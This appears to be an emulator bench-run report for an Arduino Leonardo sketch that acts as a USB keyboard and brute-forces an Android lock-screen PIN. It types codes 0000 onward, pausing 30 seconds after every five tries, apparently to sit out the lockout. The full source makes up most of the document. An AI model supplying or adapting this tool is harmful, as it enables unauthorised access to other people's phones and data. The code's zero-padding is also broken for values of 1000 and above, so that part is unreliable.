
Bench run of a sketch on a simulated Arduino Leonardo, built with avr-gcc and run on an emulated ATmega32U4. Shown: output pins drawn as LEDs (lit = HIGH). USB keyboard and mouse output is not drawn.

Above: at 28.5 s.
At 57.0 s:

Timing chart, 0 to 73.6 s (numbered marks = the images above):


The sketch:

AndroidPincodeBruteforce.ino
```cpp
#include <Keyboard.h>

int firstnum = 1;
int maxnum = 9999;
int count = 0;
int i = 0;

int led = 17;

void setup() {
  delay(2000);
  Keyboard.begin();
  pinMode(led, OUTPUT);
}

void loop() {
  digitalWrite(led, HIGH);
  String three = "000";
  String two = "00";
  String one = "0";
  int j = 0;
  for (int k = 0; k<=maxnum; k++) {
    if (j == 5) {
      delay(3000);
      Keyboard.write(KEY_RETURN);
      delay(30000);
      j = 0;
      digitalWrite(led, LOW);
      Keyboard.write(KEY_RETURN);
    }

    if (i<10) {
      Keyboard.println(three + i);
    }
    else if ((i >= 10) and (i < 100)) {
      Keyboard.println(two + i);
    }
    else if ((i >= 100) and (i < 10000)) {
      Keyboard.println(one + i);
    }
    else {
      Keyboard.println(i);
    }
    delay(2000);
    Keyboard.write(KEY_RETURN);
    Keyboard.releaseAll();
    delay(2000);
    j++;
    i++;
    digitalWrite(led, HIGH);
  }

}
```

Measured:
- by itself, pin 17 (led): alternates HIGH for 51.1 s and LOW for 4.0 s
